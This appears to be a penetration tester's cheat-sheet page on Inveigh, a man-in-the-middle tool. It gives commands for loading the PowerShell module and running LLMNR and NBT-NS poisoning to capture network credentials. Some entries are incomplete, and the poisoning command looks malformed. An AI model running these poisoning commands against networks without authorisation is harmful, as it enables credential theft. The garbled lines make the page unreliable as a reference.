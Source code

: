 ```yaml
---
tags:
  - windows
  - linux
---
```

> PS version is EoL. Use Perl version!

[Inveigh](https://github.com/Kevin-Robertson/Inveigh) is a cross-platform MITM platform that can be used for spoofing and poisoning attacks.
# Example Usage
## Windows
### Powershell
```powershell
PS > Import-Module .\Inveigh.ps1
PS > (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
... SNIP ...
```
#### LLMNR and NBT-NS Poisoning
```powershell
PS > Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
#### Useful flags
- `-FileOutput`: Save output
- `-ConsoleOutput`: 
### Perl
```powershell
PS > .\Inveigh.exe
```
#### Useful commands
- `HELP`
- 